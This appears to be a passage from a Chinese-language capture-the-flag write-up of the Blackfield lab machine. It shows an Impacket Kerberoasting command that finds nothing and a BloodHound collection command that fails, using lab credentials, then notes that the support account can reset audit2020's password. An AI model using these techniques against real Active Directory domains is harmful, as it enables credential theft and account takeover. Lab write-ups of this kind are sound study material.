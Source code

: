 有信息，但是不太好利用



# Kerberoasting

无

```bash
└─# GetUserSPNs.py -request -dc-ip 10.10.10.192 'blackfield.local/support:#00^BlackKnight'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

No entries found!
```



# Bloodhound

延时太高，失败了

```bash
bloodhound-python -c ALL -u support -p '#00^BlackKnight' -d blackfield.local -dc dc01.blackfield.local -ns 10.10.10.192
```

<img src=".\图片\Snipaste_2023-09-17_11-20-02.png" alt="Snipaste_2023-09-17_11-20-02" style="zoom:80%;" />



找到一个 更改密码 的手法，support 用户 可以 更改 audit2020 用户的密码 为 `zf1yolo!!!`
